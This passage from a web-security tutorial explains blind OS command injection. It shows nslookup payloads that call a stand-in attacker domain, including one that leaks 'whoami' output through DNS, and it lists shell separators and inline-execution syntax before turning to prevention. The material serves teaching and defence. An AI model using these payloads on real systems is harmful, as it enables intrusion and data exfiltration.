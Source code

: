 ### Exploiting blind OS command injection using out-of-band (OAST) techniques

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:

`& nslookup kgji2ohoyw.web-attacker.com &`

This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.

The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:

``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``

This will cause a DNS lookup to the attacker's domain containing the result of the `whoami` command:

`wwwuser.kgji2ohoyw.web-attacker.com`

### Ways of injecting OS commands

A variety of shell metacharacters can be used to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems:

* `&`
* `&&`
* `|`
* `||`

The following command separators work only on Unix-based systems:

* `;`
* Newline (`0x0a` or )

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

* `` ` `` injected command `` ` ``
* `$(` injected command `)`

Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using `"` or `'`) before using suitable shell metacharacters to inject a new command.

### How to prevent OS command injection attacks

By far the most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. In virtually every case, there are alternate ways of implementing the required functionality using safer platform APIs.
